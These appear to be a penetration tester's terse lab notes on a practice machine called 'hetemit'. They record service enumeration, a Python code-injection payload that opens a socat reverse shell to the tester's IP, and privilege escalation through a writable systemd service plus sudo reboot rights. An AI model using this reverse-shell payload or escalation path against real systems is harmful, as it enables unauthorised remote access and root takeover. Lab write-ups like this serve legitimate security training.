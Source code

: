 _____

> [!info]
> IP=192.168.188.117


# SMB

Cmeeks                                                  NO ACCESS       cmeeks Files


# 80
gobuster -- nothing

# 18000

![[Pasted image 20240222114839.png]]

`Rails.root: /home/cmeeks/register_hetemit`


# 50000
python

/generate
/verify

![[Pasted image 20240222120107.png]]

![[Pasted image 20240222120125.png]]


```**python**
code=os.system('socat+TCP:192.168.45.214:80+EXEC:sh')
```


# PrivEsc

writable

/etc/systemd/system/pythonapp.service

![[Pasted image 20240222162759.png]]

```txt
User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

> # As “services” require restarted/system reboot to refresh whatever changes we made to the service app, we type “sudo /sbin/reboot” and system was rebooted


